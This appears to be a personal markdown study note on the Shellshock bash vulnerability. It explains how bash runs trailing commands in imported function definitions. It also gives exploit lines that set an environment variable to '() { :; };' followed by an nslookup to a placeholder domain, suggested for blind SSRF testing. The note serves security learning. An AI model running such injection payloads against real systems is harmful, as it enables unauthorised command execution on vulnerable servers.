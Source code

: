 - Shellshock is effectively an **RCE** Vulnerability in `BASH`.
- The vulnerability relies in the fact that BASH *incorrectly executes trailing commands* when it imports a function definition stored into an environment variable.
- Bash versions <= 4.3 are **vulnerable** to this.
- The vulnerability is present during copying the *environment variables* to `BASH`


##### What's the difference between` /bin/bash -c "echo dhruv"`  AND  `echo dhruv`?
The difference between `/bin/bash -c "echo dhruv"` and `"echo dhruv"` lies in the way the command is executed and the shell environment in which it runs.
1.  `/bin/bash -c "echo dhruv"`
    -   This command explicitly specifies the path to the Bash shell (`/bin/bash`) and uses the `-c` flag to provide a command (`echo dhruv`) as an argument to be executed.
    -   The command is executed within the Bash shell environment, regardless of the default shell of the user.
    -   This is useful when you want to ensure that the command is executed using Bash, regardless of the default shell set for the user or system.
2.  `"echo dhruv"`
    -   This command relies on the default shell specified for the user or system. It doesn't explicitly invoke the Bash shell.
    -   The command is executed within the default shell environment, which may vary based on the user's configuration or the system's settings.
    -   If the default shell is set to Bash, the command will be executed within the Bash environment. Otherwise, it will run in the default shell, which could be a different shell, such as Dash, Korn shell (ksh), or others.


#### Exploit
- Create an *Empty Nameless function* in `Bash Scripting`
```bash
env x="() { :; }; /usr/bin/nslookup [domain_name]";        # Colon(:) means return "True"
OR
export x="() { :; }; /usr/bin/nslookup [domain_name]";

echo $x
... [Command Execution]
```
- This function contains `:`, which means nothing, followed by `;`. This part is used to *bypass syntax restrictions* and ensure the vulnerability triggers.
- Since it executes trailing commands, all commands entered after the function will get executed!

- If shell is `BASH` by *default*
```bash
export x="() { :; }; nslookup [domain_name]";
```


You can use this exploit during #blindssrf